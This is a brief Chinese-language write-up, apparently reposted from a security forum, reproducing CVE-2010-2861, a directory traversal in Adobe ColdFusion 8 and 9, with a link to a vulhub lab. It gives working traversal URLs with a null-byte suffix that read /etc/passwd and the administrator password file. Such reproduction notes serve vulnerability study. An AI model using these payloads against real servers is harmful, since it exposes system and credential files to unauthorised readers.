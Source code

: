 # （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2805](https://www.zhihuifly.com/t/topic/2805)

# （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞

## 一、漏洞简介

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 二、漏洞影响

Adobe ColdFusion 8

Adobe ColdFusion 9

## 三、复现过程

直接访问`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

![image](img/309c8fe11ad9310ce57bbd1487257533.png)

读取后台管理员密码`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

![image](img/9493648f6d2b241211cf9b841c79d04d.png)

## 参考链接

> https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/